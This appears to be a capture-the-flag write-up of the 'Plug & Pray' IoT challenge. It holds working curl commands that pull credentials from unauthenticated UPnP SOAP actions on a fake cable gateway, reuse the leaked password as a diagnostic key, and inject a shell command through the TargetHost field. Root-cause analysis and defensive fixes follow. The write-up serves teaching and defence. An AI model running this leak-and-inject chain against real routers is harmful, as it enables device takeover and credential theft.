

<!--
  Plug & Pray HTB write-up
  Best viewed in: VS Code Markdown Preview, Obsidian, Typora, or any Markdown renderer that supports HTML + Mermaid.
  GitHub may strip some inline CSS animations, but the technical content remains readable.
-->

<style>
:root {
  --bg: #0f172a;
  --panel: #111827;
  --panel2: #1f2937;
  --text: #e5e7eb;
  --muted: #9ca3af;
  --green: #22c55e;
  --cyan: #38bdf8;
  --orange: #fb923c;
  --red: #ef4444;
  --purple: #a78bfa;
  --yellow: #facc15;
}

.hero {
  background: linear-gradient(135deg, #0f172a 0%, #111827 45%, #172554 100%);
  color: var(--text);
  padding: 28px;
  border-radius: 18px;
  border: 1px solid rgba(56,189,248,.35);
  box-shadow: 0 16px 36px rgba(0,0,0,.25);
}
.hero h1 { margin: 0; font-size: 2.15rem; letter-spacing: .4px; }
.hero p { color: var(--muted); font-size: 1.05rem; }
.badge {
  display: inline-block;
  margin: 4px 6px 4px 0;
  padding: 6px 10px;
  border-radius: 999px;
  font-size: .85rem;
  font-weight: 700;
  color: #020617;
}
.badge-blue { background: var(--cyan); }
.badge-green { background: var(--green); }
.badge-orange { background: var(--orange); }
.badge-purple { background: var(--purple); }
.badge-red { background: var(--red); color: white; }

.callout {
  border-left: 5px solid var(--cyan);
  background: #f8fafc;
  padding: 14px 16px;
  margin: 16px 0;
  border-radius: 10px;
}
.callout strong { color: #0f172a; }
.callout.warning { border-left-color: var(--orange); background: #fff7ed; }
.callout.danger { border-left-color: var(--red); background: #fef2f2; }
.callout.success { border-left-color: var(--green); background: #f0fdf4; }
.callout.purple { border-left-color: var(--purple); background: #faf5ff; }

@keyframes pulseGlow {
  0%   { box-shadow: 0 0 0 rgba(56,189,248,0); transform: translateY(0); }
  50%  { box-shadow: 0 0 26px rgba(56,189,248,.45); transform: translateY(-2px); }
  100% { box-shadow: 0 0 0 rgba(56,189,248,0); transform: translateY(0); }
}
@keyframes moveLine {
  from { background-position: 0 0; }
  to   { background-position: 48px 0; }
}
.attack-strip {
  display: flex;
  gap: 10px;
  flex-wrap: wrap;
  align-items: center;
  margin: 20px 0;
}
.step-node {
  background: #0f172a;
  color: #e5e7eb;
  padding: 12px 14px;
  border-radius: 14px;
  border: 1px solid rgba(56,189,248,.45);
  animation: pulseGlow 2.8s infinite ease-in-out;
  min-width: 142px;
  text-align: center;
  font-weight: 700;
}
.arrow {
  width: 64px;
  height: 7px;
  border-radius: 999px;
  background: repeating-linear-gradient(90deg, #38bdf8 0, #38bdf8 14px, #172554 14px, #172554 24px);
  background-size: 48px 7px;
  animation: moveLine 1s linear infinite;
}
.kbd {
  background: #111827;
  color: #f8fafc;
  border-radius: 6px;
  padding: 2px 6px;
  font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, Consolas, monospace;
}
table { width: 100%; border-collapse: collapse; }
th { background: #111827; color: #f8fafc; }
td, th { padding: 10px; border: 1px solid #d1d5db; }
tr:nth-child(even) { background: #f9fafb; }
code { white-space: pre-wrap; }
</style>

<div class="hero">
  <h1>Hack The Box — Plug & Pray</h1>
  <p>A beginner-friendly hardware/IoT write-up showing how a fake cable gateway leaked credentials through UPnP and allowed command injection through a diagnostic SOAP endpoint.</p>
  <span class="badge badge-blue">Category: Hardware / IoT</span>
  <span class="badge badge-purple">Protocol: UPnP + SOAP</span>
  <span class="badge badge-orange">Bug 1: Credential Exposure</span>
  <span class="badge badge-red">Bug 2: Command Injection</span>
  <span class="badge badge-green">Flag Captured</span>
</div>

<br>

<div class="attack-strip">
  <div class="step-node">1. Discover XML</div>
  <div class="arrow"></div>
  <div class="step-node">2. Enumerate SOAP</div>
  <div class="arrow"></div>
  <div class="step-node">3. Leak Password</div>
  <div class="arrow"></div>
  <div class="step-node">4. Use X-Diag-Key</div>
  <div class="arrow"></div>
  <div class="step-node">5. Inject Command</div>
</div>

---

## Table of Contents

1. [Challenge Summary](#1-challenge-summary)
2. [What the Challenge Is Really About](#2-what-the-challenge-is-really-about)
3. [Understanding the Web Page](#3-understanding-the-web-page)
4. [Understanding UPnP, SCPD, and SOAP](#4-understanding-upnp-scpd-and-soap)
5. [Enumerating the Device Description](#5-enumerating-the-device-description)
6. [Finding the Available SOAP Actions](#6-finding-the-available-soap-actions)
7. [Confirming SOAP Works](#7-confirming-soap-works)
8. [Leaking the ISP/Admin Credentials](#8-leaking-the-ispadmin-credentials)
9. [Why the Diagnostic Endpoint Initially Failed](#9-why-the-diagnostic-endpoint-initially-failed)
10. [The Breakthrough: `X-Diag-Key`](#10-the-breakthrough-x-diag-key)
11. [Command Injection and Flag Capture](#11-command-injection-and-flag-capture)
12. [Root Cause Analysis](#12-root-cause-analysis)
13. [Defensive Fixes](#13-defensive-fixes)
14. [Full Exploit Command](#14-full-exploit-command)
15. [Lessons Learned](#15-lessons-learned)

---

## 1. Challenge Summary

| Item | Value |
|---|---|
| Challenge | `Plug & Pray` |
| Platform | Hack The Box |
| Category | Hardware / IoT |
| Target | `154.57.164.67:30483` |
| Device | VortexLink GX3000 Cable Gateway |
| Main Protocol | UPnP over HTTP |
| Final Bug Chain | UPnP credential leak → diagnostic key reuse → command injection |
| Flag | `HTB{d0b1c6ce0d56006022c51977ab8bea69}` |

<div class="callout success">
<strong>One-line summary:</strong> The router exposed a UPnP service that leaked a password. That password was also accepted as a diagnostic key. With that key, the diagnostic network-test feature could be abused for command injection and the flag was read from the server.
</div>

---

## 2. What the Challenge Is Really About

At first, the target looks like a normal router administration panel. It has menu items like:

- WAN Setup
- LAN Setup
- DHCP
- Firewall
- UPnP
- Diagnostics
- Logs
- Firmware Update

But none of the buttons actually work. That is intentional.

The actual challenge is not about clicking the web UI. The web page is a decoy. The real attack surface is the **UPnP device description XML** exposed at the bottom of the page.

<div class="callout purple">
<strong>Important idea:</strong> In IoT and embedded-device challenges, the normal web page may be boring. The useful vulnerability is often in a service descriptor, debug endpoint, firmware file, serial output, or device-management protocol.
</div>

---

## 3. Understanding the Web Page

The main page exposed only a few real links:

```text
/
javascript:void(0)
/rootDesc.xml
```

This means most sidebar buttons were fake links:

```html
<a class="sidebar-link" href="javascript:void(0)">Diagnostics</a>
<a class="sidebar-link" href="javascript:void(0)">Logs</a>
<a class="sidebar-link" href="javascript:void(0)">Firmware Update</a>
```

The only useful link was:

```text
/rootDesc.xml
```

That file is a **UPnP device description document**. In this challenge, that XML file tells us what hidden services exist behind the device.

---

## 4. Understanding UPnP, SCPD, and SOAP

Before attacking, these three terms matter.

### UPnP

**UPnP** means **Universal Plug and Play**. It is commonly used by home routers, smart TVs, printers, IoT devices, and gateways so that devices can discover and control each other on a network.

For example, a router can expose UPnP actions such as:

- Get external IP address
- Get connection status
- Add port mapping
- Read device information
- Run diagnostics

### Device Description XML

A UPnP device usually exposes an XML file that describes:

- Device model
- Manufacturer
- Serial number
- Available services
- Control URLs
- Service description files

In this challenge, the main file was:

```text
/rootDesc.xml
```

### SCPD XML

**SCPD** means **Service Control Protocol Description**.

This is another XML file that describes the actions supported by a specific UPnP service.

For example:

```xml
<SCPDURL>/WANIPCn.xml</SCPDURL>
<SCPDURL>/diag.xml</SCPDURL>
```

These files tell us what SOAP actions can be called.

### SOAP

**SOAP** is an XML-based request format. UPnP uses SOAP requests to call actions on services.

A SOAP request usually needs:

1. A target control URL, such as `/ctl/IPConn`
2. A `SOAPAction` header, such as `GetExternalIPAddress`
3. An XML request body

Example shape:

```http
POST /ctl/IPConn HTTP/1.1
Content-Type: text/xml; charset="utf-8"
SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetExternalIPAddress"
```

---

## 5. Enumerating the Device Description

First, define the target URL:

```bash
export H='http://154.57.164.67:30483'
```

Then download the important XML files:

```bash
curl -s "$H/rootDesc.xml" -o rootDesc.xml
curl -s "$H/diag.xml" -o diag.xml
curl -s "$H/WANIPCn.xml" -o WANIPCn.xml
```

The device description revealed this device:

```xml
<friendlyName>VortexLink GX3000 Cable Gateway</friendlyName>
<manufacturer>VortexLink Networking</manufacturer>
<modelName>GX3000</modelName>
<modelNumber>4.2.1</modelNumber>
<serialNumber>VLK-2024-GX3000-0047</serialNumber>
```

The important service list was:

```xml
<serviceType>urn:schemas-upnp-org:service:WANIPConnection:1</serviceType>
<controlURL>/ctl/IPConn</controlURL>
<SCPDURL>/WANIPCn.xml</SCPDURL>

<serviceType>urn:schemas-upnp-org:service:DiagnosticService:1</serviceType>
<controlURL>/ctl/Diag</controlURL>
<SCPDURL>/diag.xml</SCPDURL>
```

This gives us two service areas:

| Service | Control URL | Description |
|---|---:|---|
| `WANIPConnection` | `/ctl/IPConn` | WAN/router status and connection information |
| `DiagnosticService` | `/ctl/Diag` | Diagnostic actions such as network tests |

---

## 6. Finding the Available SOAP Actions

To find the available actions inside `diag.xml`:

```bash
xmllint --format diag.xml | grep -E '<name>|<argument>|<direction>|<relatedStateVariable>'
```

The diagnostic service showed:

```text
GetDeviceInfo
RunNetworkTest
```

`RunNetworkTest` accepted two input arguments:

```text
TargetHost
TestType
```

That already looked suspicious because a network-test feature often runs system commands like `ping` or `traceroute` behind the scenes.

Then the WAN service was inspected:

```bash
xmllint --format WANIPCn.xml | grep -E '<name>|<argument>|<direction>|<relatedStateVariable>'
```

The important actions were:

```text
GetExternalIPAddress
GetUserName
GetPassword
```

<div class="callout warning">
<strong>Suspicious finding:</strong> `GetUserName` and `GetPassword` are not normal actions that should be exposed unauthenticated through a WAN/IP UPnP service. A router leaking credentials through SOAP is a serious design flaw.
</div>

---

## 7. Confirming SOAP Works

Before attacking sensitive actions, SOAP was tested using a normal harmless action:

```bash
curl -s -X POST "$H/ctl/IPConn" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetExternalIPAddress"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:GetExternalIPAddress xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"/></s:Body></s:Envelope>'
```

The server responded successfully:

```xml
<NewExternalIPAddress>198.51.100.77</NewExternalIPAddress>
```

That confirmed three things:

1. The SOAP endpoint was reachable.
2. The `SOAPAction` format was correct.
3. The server was processing UPnP actions properly.

---

## 8. Leaking the ISP/Admin Credentials

Next, the non-standard `GetUserName` action was called:

```bash
curl -s -X POST "$H/ctl/IPConn" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetUserName"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:GetUserName xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"/></s:Body></s:Envelope>' \
| xmllint --format -
```

Response:

```xml
<NewUserName>vortex_isp_admin</NewUserName>
```

Then the password was requested:

```bash
curl -s -X POST "$H/ctl/IPConn" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetPassword"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:GetPassword xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"/></s:Body></s:Envelope>' \
| xmllint --format -
```

Response:

```xml
<NewPassword>Gx3000@ISP#2024</NewPassword>
```

At this point, the device had leaked credentials without authentication:

```text
Username: vortex_isp_admin
Password: Gx3000@ISP#2024
```

<div class="callout danger">
<strong>Security issue:</strong> The device exposed administrative/ISP credentials through a publicly reachable UPnP SOAP action. Even if the web login page is not functional, sensitive data is already compromised.
</div>

---

## 9. Why the Diagnostic Endpoint Initially Failed

The next obvious target was the diagnostic action:

```text
RunNetworkTest
```

It had two inputs:

```text
TargetHost
TestType
```

A normal request looked like this:

```bash
curl -s -X POST "$H/ctl/Diag" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:DiagnosticService:1#RunNetworkTest"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:RunNetworkTest xmlns:u="urn:schemas-upnp-org:service:DiagnosticService:1"><TargetHost>127.0.0.1</TargetHost><TestType>ping</TestType></u:RunNetworkTest></s:Body></s:Envelope>' \
| xmllint --format -
```

But the response was:

```xml
<errorCode>606</errorCode>
<errorDescription>Action not authorized</errorDescription>
```

This means the action existed, but the server refused to run it.

Several common ideas failed:

| Attempt | Result |
|---|---|
| HTTP Basic Auth with leaked credentials | Still unauthorized |
| HTTP Digest Auth | Still unauthorized |
| Changing `TestType` values | Still unauthorized |
| Spoofing `Host` / `X-Forwarded-For` | Still unauthorized |
| Using serial/UDN headers | Still unauthorized |

The credentials were real, but not accepted as standard web authentication.

---

## 10. The Breakthrough: `X-Diag-Key`

The diagnostic endpoint required a custom header:

```http
X-Diag-Key: Gx3000@ISP#2024
```

The leaked password was reused as the diagnostic key.

This is a classic embedded-device design mistake:

```text
One secret is reused across multiple functions.
```

Instead of using proper session authentication, the diagnostic service checked a static header value.

The working diagnostic request format became:

```bash
curl -s -X POST "$H/ctl/Diag" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:DiagnosticService:1#RunNetworkTest"' \
-H 'X-Diag-Key: Gx3000@ISP#2024' \
--data-binary '<?xml version="1.0" encoding="utf-8"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:RunNetworkTest xmlns:u="urn:schemas-upnp-org:service:DiagnosticService:1"><TargetHost>127.0.0.1</TargetHost><TestType>ping</TestType></u:RunNetworkTest></s:Body></s:Envelope>' \
| xmllint --format -
```

Now the diagnostic action executed successfully.

---

## 11. Command Injection and Flag Capture

The vulnerable field was:

```xml
<TargetHost>...</TargetHost>
```

A safe implementation should pass the target host as a single argument to a program. A vulnerable implementation often builds a shell command like this:

```python
os.system("ping -c 2 " + target_host)
```

If the user controls `target_host`, then this input:

```text
127.0.0.1; cat flag.txt
```

becomes something like this on the server:

```bash
ping -c 2 127.0.0.1; cat flag.txt
```

The semicolon `;` tells the shell:

```text
Run the first command, then run the second command.
```

So the server first runs `ping`, then runs `cat flag.txt`.

Final payload:

```xml
<TargetHost>127.0.0.1; cat /flag || cat flag.txt || cat /app/flag</TargetHost>
```

This tries multiple common flag locations:

| Payload Part | Meaning |
|---|---|
| `127.0.0.1` | Valid ping target |
| `;` | Command separator |
| `cat /flag` | Try reading `/flag` |
| `||` | If previous command fails, try next command |
| `cat flag.txt` | Try reading `flag.txt` in current directory |
| `cat /app/flag` | Try reading `/app/flag` |

The response contained the command output:

```xml
<TestResult>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms

--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1033ms
rtt min/avg/max/mdev = 0.045/0.045/0.046/0.000 ms
HTB{d0b1c6ce0d56006022c51977ab8bea69}
cat: /flag: No such file or directory
</TestResult>
```

<div class="callout success">
<strong>Flag:</strong> <code>HTB{d0b1c6ce0d56006022c51977ab8bea69}</code>
</div>

---

## Visual Attack Flow

```mermaid
flowchart LR
    A[Visit Router Web UI] --> B[Find /rootDesc.xml]
    B --> C[Identify UPnP Services]
    C --> D[Download WANIPCn.xml]
    D --> E[Find GetUserName / GetPassword]
    E --> F[Leak Password: Gx3000@ISP#2024]
    F --> G[Use Password as X-Diag-Key]
    G --> H[Call RunNetworkTest]
    H --> I[Inject TargetHost]
    I --> J[Read flag.txt]

    classDef start fill:#dbeafe,stroke:#2563eb,color:#0f172a;
    classDef vuln fill:#fee2e2,stroke:#dc2626,color:#0f172a;
    classDef win fill:#dcfce7,stroke:#16a34a,color:#0f172a;
    classDef info fill:#fef9c3,stroke:#ca8a04,color:#0f172a;

    class A,B,C,D info;
    class E,F,G,H,I vuln;
    class J win;
```



---

## SOAP Relationship Map



---

## 12. Root Cause Analysis

This challenge had three main issues chained together.

### Issue 1 — Unauthenticated Sensitive SOAP Actions

The device exposed:

```text
GetUserName
GetPassword
```

These actions should not be publicly available. They directly leaked sensitive credentials.

### Issue 2 — Secret Reuse

The leaked password:

```text
Gx3000@ISP#2024
```

was also accepted as:

```http
X-Diag-Key: Gx3000@ISP#2024
```

This means one leaked secret unlocked another service.

### Issue 3 — Command Injection in `RunNetworkTest`

The diagnostic feature accepted a user-controlled host value and likely passed it into a shell command without proper validation.

Vulnerable pattern:

```python
os.system("ping -c 2 " + target_host)
```

Safer pattern:

```python
subprocess.run(["ping", "-c", "2", target_host], shell=False)
```

Even safer:

```python
import ipaddress
ipaddress.ip_address(target_host)
```

This validates that the input is actually an IP address before running anything.

---

## 13. Defensive Fixes

| Vulnerability | Correct Fix |
|---|---|
| Public `GetPassword` action | Remove it completely or require strong authentication |
| UPnP reachable externally | Restrict UPnP to trusted LAN only |
| Static diagnostic key | Replace with authenticated sessions and per-device secrets |
| Secret reuse | Use separate credentials for separate components |
| Command injection | Do not pass user input into shell commands |
| Weak input validation | Validate `TargetHost` as an IP/domain using strict allowlists |
| Sensitive diagnostic output | Avoid returning raw command output to users |
| No rate limiting/logging | Add audit logs and alerting for diagnostic abuse |

<div class="callout warning">
<strong>Real-world note:</strong> On actual routers, UPnP should usually not be exposed to the internet. UPnP was mainly designed for local-network convenience, not public WAN access.
</div>

---

## 14. Full Exploit Command

This command extracts only the flag:

```bash
curl -s -X POST "$H/ctl/Diag" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:DiagnosticService:1#RunNetworkTest"' \
-H 'X-Diag-Key: Gx3000@ISP#2024' \
--data-binary '<?xml version="1.0" encoding="utf-8"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:RunNetworkTest xmlns:u="urn:schemas-upnp-org:service:DiagnosticService:1"><TargetHost>127.0.0.1; cat /flag || cat flag.txt || cat /app/flag</TargetHost><TestType>ping</TestType></u:RunNetworkTest></s:Body></s:Envelope>' \
| grep -oE 'HTB\{[^}]+\}'
```

Expected output:

```text
HTB{d0b1c6ce0d56006022c51977ab8bea69}
```

---

## 15. Lessons Learned

- A non-functional web UI does not mean the device has no attack surface.
- UPnP XML descriptors can reveal hidden control URLs and service actions.
- Always inspect SCPD files such as `/WANIPCn.xml` and `/diag.xml`.
- Non-standard actions like `GetPassword` are strong indicators of sensitive exposure.
- Credentials leaked from one service may be reused by another internal/debug service.
- Diagnostic features are high-risk because they often wrap system commands like `ping`, `traceroute`, or `nslookup`.
- `Action not authorized` does not always mean the path is dead; it may mean a custom header, token, or device key is missing.
- Command injection often appears when user input is joined into a shell command string.

---

## Final Vulnerability Chain

```text
1. Browser shows fake router panel.
2. Real link points to /rootDesc.xml.
3. /rootDesc.xml reveals UPnP service descriptors.
4. /WANIPCn.xml reveals GetUserName and GetPassword.
5. GetPassword leaks Gx3000@ISP#2024.
6. Diagnostic service requires X-Diag-Key.
7. Leaked password works as X-Diag-Key.
8. RunNetworkTest accepts TargetHost.
9. TargetHost is command injectable.
10. Inject cat flag.txt.
11. Capture HTB flag.
```

<div class="callout success">
<strong>Challenge completed:</strong> <code>HTB{d0b1c6ce0d56006022c51977ab8bea69}</code>
</div>

---

## Appendix — Cleaner Enumeration Commands

### Pull XML files

```bash
export H='http://154.57.164.67:30483'
curl -s "$H/rootDesc.xml" -o rootDesc.xml
curl -s "$H/diag.xml" -o diag.xml
curl -s "$H/WANIPCn.xml" -o WANIPCn.xml
```

### List diagnostic actions

```bash
xmllint --format diag.xml | grep -E '<name>|<argument>|<direction>|<relatedStateVariable>'
```

### List WAN actions

```bash
xmllint --format WANIPCn.xml | grep -E '<name>|<argument>|<direction>|<relatedStateVariable>'
```

### Leak username

```bash
curl -s -X POST "$H/ctl/IPConn" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetUserName"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:GetUserName xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"/></s:Body></s:Envelope>' \
| xmllint --format -
```

### Leak password

```bash
curl -s -X POST "$H/ctl/IPConn" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#GetPassword"' \
--data-binary '<?xml version="1.0"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:GetPassword xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"/></s:Body></s:Envelope>' \
| xmllint --format -
```

### Use diagnostic key and exploit

```bash
curl -s -X POST "$H/ctl/Diag" \
-H 'Content-Type: text/xml; charset="utf-8"' \
-H 'SOAPAction: "urn:schemas-upnp-org:service:DiagnosticService:1#RunNetworkTest"' \
-H 'X-Diag-Key: Gx3000@ISP#2024' \
--data-binary '<?xml version="1.0" encoding="utf-8"?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:RunNetworkTest xmlns:u="urn:schemas-upnp-org:service:DiagnosticService:1"><TargetHost>127.0.0.1; cat /flag || cat flag.txt || cat /app/flag</TargetHost><TestType>ping</TestType></u:RunNetworkTest></s:Body></s:Envelope>' \
| grep -oE 'HTB\{[^}]+\}'
```
